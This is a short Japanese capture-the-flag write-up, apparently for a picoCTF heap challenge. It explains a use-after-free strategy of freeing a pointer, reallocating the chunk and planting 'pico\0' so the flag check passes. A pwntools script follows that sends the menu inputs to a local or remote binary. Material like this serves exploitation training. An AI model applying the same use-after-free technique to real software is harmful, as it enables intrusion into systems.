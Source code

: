 Use-after-free が使える。以下の戦略。

1. Free x を呼び出し、xの指すアドレスをfreelistに載せる。
2. Allocate objectでmalloc。上記元 x のアドレスが確保される。その領域の30~35バイト目に  `"pico\0"` の文字列をセット。
3. Check for win で `x->flag` を参照。上記の `"pico\0"` が参照されて勝ち。

```python
## Run local executable.
##   ./exploit.py LOCAL EXE=./executable
#
## Run remote (with local executable for addresses)
##   ./exploit.py HOST=example.com PORT=4141 EXE=/tmp/executable
#
## Run with GDB script.
##   ./exploit.py GDB
## --- (Edit GDB script if necessary) --------------------------------
gdbscript = """
b check_win
p win
b print_menu
c
""".format(
    **locals()
)
## -------------------------------------------------------------------

from pwn import *

## --- (do not edit) ---------------------------------------------------
exe = context.binary = ELF(args.EXE)

def start_local(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    host = args.HOST
    port = int(args.PORT)
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

io = start()
## -----------------------------------------------------------------------

## EXPLOIT GOES HERE

win_addr = p32(0x4011A0)

## Free x
io.sendlineafter(b"Enter your choice: ", b"5")

## Allocate object
io.sendlineafter(b"Enter your choice: ", b"2")
io.sendlineafter(b"Size of object allocation: ", b"35")
io.sendlineafter(b"Data for flag: ", b"pico\0" * 7)
```